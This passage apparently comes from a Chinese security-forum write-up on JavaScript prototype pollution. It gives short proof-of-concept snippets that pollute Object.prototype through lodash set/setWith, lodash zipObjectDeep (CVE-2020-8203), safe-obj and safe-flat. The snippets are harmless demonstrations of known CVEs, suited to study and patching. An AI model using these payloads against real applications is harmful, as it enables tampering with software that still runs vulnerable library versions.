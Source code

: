 ### lodash.set 方法 以及 setWith 方法 `CWE-400`

POC:

```js
lod = require('lodash')
lod.setWith({}, "__proto__[test]", "123")
lod.set({}, "__proto__[test2]", "456")
console.log(Object.prototype)
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-8f356f6a951d64cb2f6c0bdd759d9be394d8563f.png)

### lodash.zipObjectDeep 方法 `CVE-2020-8203`

影响版本 &lt; 4.17.20

```js
const _ = require('lodash');
_.zipObjectDeep(['__proto__.z'],[123])
console.log(z) // 123
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-22d7a105a0a01497cfb751f8e331dfa3c19934b3.png)

**这里关于影响版本的问题，很玄学，不能简单的相信 CVE 上所标注好的。**

0x02 其他小众原型链污染
==============

safe-obj 原型链污染 `CVE-2021-25928`
-------------------------------

POC:

```js
var safeObj = require("safe-obj");
var obj = {};
console.log("Before : " + {}.polluted);
safeObj.expand(obj, '__proto__.polluted', 'Yes! Its Polluted');
console.log("After : " + {}.polluted);
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-073593d29eb7d4a0698cde42376615dbfbbca20d.png)

safe-falt 原型链污染 `CVE-2021-25927`
--------------------------------

POC:

```js
var safeFlat = require("safe-flat");
console.log("Before : " + {}.polluted);
safeFlat.unflatten({"__proto__.polluted": "Yes! Its Polluted"}, '.');
console.log("After : " + {}.polluted);
```
